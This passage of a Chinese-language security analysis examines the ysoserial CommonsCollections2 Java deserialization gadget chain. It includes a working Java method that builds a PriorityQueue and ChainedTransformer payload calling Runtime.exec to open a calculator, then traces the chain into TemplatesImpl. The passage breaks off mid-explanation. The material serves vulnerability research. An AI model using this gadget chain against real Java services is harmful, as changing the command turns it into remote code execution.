 ![-w928](media/15662017023838/15670498884317.jpg)


可能会想到那这里直接塞一个CommonsCollections1中的ChainedTransformer然后触发transform方法不是就可以了，是可以的，生成payload的方法如下

```
private static Object createPayloadByOldfunc() throws Exception {
    Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class),
    
            new InvokerTransformer("getMethod",
                    new Class[]{String.class, Class[].class},
                    new Object[]{"getRuntime", new Class[0]}),
    
            new InvokerTransformer("invoke",
                    new Class[]{Object.class, Object[].class},
                    new Object[]{null, new Object[0]}),
    
            new InvokerTransformer("exec",
                    new Class[]{String.class},
                    new Object[]{"open /Applications/Calculator.app"}),
    };
    
    Transformer transformer = new ChainedTransformer(new Transformer[]{});
    final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, new TransformingComparator(transformer));
    queue.add(1);
    queue.add(1);
    Field tField = transformer.getClass().getDeclaredField("iTransformers");
    tField.setAccessible(true);
    tField.set(transformer,transformers);
    return queue;
}
```

回到yso的payload上来，TransformingComparator的参数并不是ChainedTransformer而是直接使用的InvokerTransformer，这里调用了InvokerTransformer的transform方法，参数obj1就是我们存储在队列中的内容Templateslmpl对象，和CommonsCollections1中的分析一样，iMethodName在payload中通过反射的方法设置成了newTransformer，通过`method.invoke(xxx)`执行了TemplatesImpl的newTransformer方法。

进入TemplatesImpl类，newTransformer执行了getTransletInstance方法，在该方法中通过`AbstractTranslet translet = (AbstractTranslet) _class[_transletIndex].newInstance();`对类进行了实例化，那看一下_class中包含哪些内容
